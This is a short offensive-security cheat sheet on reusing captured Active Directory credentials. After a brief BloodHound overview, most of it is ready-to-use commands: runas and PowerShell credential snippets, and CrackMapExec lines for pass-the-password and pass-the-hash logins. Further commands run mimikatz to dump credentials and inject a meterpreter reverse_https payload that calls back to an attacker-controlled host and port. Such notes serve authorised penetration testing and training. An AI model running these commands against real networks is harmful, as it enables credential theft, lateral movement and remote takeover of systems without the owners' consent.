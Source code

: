 # Active Directory - Credential Shuffle

### Overview

###### BloodHound

BloodHound uses graph theory to reveal the hidden and often unintended
relationships within an Active Directory environment. Attackers can use
BloodHound to easily identify highly complex attack paths that would otherwise
be impossible to quickly identify. Defenders can use BloodHound to identify and
eliminate those same attack paths. Both blue and red teams can use BloodHound
to easily gain a deeper understanding of privilege relationships in an
Active Directory environment.

### Exploit

#### Locally use credentials

Set the main DNS server on the attacking computer to the Domain Controller IP
address:

```
Control Pannel -> Network and Internet -> Network and Sharing Center -> Change adapter setting -> right click on the adapter being used -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties -> Set the Preferred DNS server field  
```

To authenticate locally as another user (with plaintext credentials) and
execute Powershell commands use:

```
# runas
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe

# For the commands supporting PSCredential
$secpasswd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<DOMAIN>\<USERNAME>", $secpasswd)
```

#### CrackMapExec

```
crackmapexec <TARGETS> --local-auth -u <USERNAME> -p <PASSWORD>
crackmapexec <TARGETS> --local-auth -u <USERNAME> -H <HASH>

crackmapexec <TARGETS> -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
crackmapexec <TARGETS> -d <DOMAIN> -u <USERNAME> -H <HASH>

crackmapexec <TARGETS> -M mimikatz -d <DOMAIN> -u <USERNAME> -p <PASSWORD>

# msf exploit(handler) > set payload windows/meterpreter/reverse_https
crackmapexec <TARGETS> -M metinject -o LHOST=<HOSTIP> LPORT=<HOSTPORT> -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
```

### Invoke-TheHash
https://github.com/Kevin-Robertson/Invoke-TheHash
